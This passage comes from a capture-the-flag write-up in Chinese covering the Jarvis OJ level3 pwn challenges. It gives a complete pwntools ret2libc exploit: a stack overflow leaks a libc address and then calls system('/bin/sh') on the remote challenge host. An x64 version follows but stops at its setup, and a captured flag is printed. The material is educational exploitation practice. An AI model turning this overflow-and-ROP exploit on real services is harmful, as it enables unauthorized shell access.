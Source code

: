      开了NX，给出libc，考虑ret2libc

     ![22](https://raw.githubusercontent.com/AiDaiP/AiDaiP.github.io/master/images/Jarvis%20OJ/22.png)

     read处存在溢出

     两次溢出，第一次溢出调用write，打印出一个函数的真实地址，通过这个地址和该函数在libc中的偏移地址计算libc基址，最终得到system的真实地址，第二次溢出执行system("/bin/sh")	

   ```python
     from pwn import *
     
     r = remote("pwn2.jarvisoj.com",9879)
     elf = ELF("./level3")
     libc = ELF("./libc-2.19.so")
     write_plt = elf.plt["write"]
     libc_start_got = elf.got['__libc_start_main']
     func = elf.symbols["vulnerable_function"]
     system_libc = libc.symbols["system"]
     binsh_libc = libc.search("/bin/sh").next()
     libc_start_libc = libc.symbols["__libc_start_main"]
     padding = 'a' * (0x88 + 0x4)
     payload1 = padding + p32(write_plt) + p32(func) + p32(1)+p32(libc_start_got)+p32(4) 
     r.recvuntil("Input:\n")
     r.sendline(payload1)
     
     leak_addr = u32(r.recv(4))
     libc_base = leak_addr - libc_start_libc
     system_addr = libc_base + system_libc
     binsh_addr = libc_base + binsh_libc
     
     payload2 = padding + p32(system_addr) + p32(func) + p32(binsh_addr)
     r.recvuntil("Input:\n")
     r.sendline(payload2)
     r.interactive()
     #CTF{d85346df5770f56f69025bc3f5f1d3d0}
   ```

* #### [XMAN]level3(x64)

   ```python
   from pwn import *
   r = remote('pwn2.jarvisoj.com', 9883)
   elf = ELF('./level3_x64')
   libc = ELF('./libc-2.19.so')
   
   pwn_addr = 0x4005E6
   sys_libc = libc.symbols['system']
   write_libc = libc.symbols['write']
   binsh_libc = libc.search('/bin/sh').next()
   
   write_plt = elf.plt['write']
   write_got = elf.got['write']
   
   pop_rdi_ret = 0x4006b3
   pop_rsi_p_r_ret = 0x4006b1
   padding = 'a' * (0x80 + 0x8)
   ```
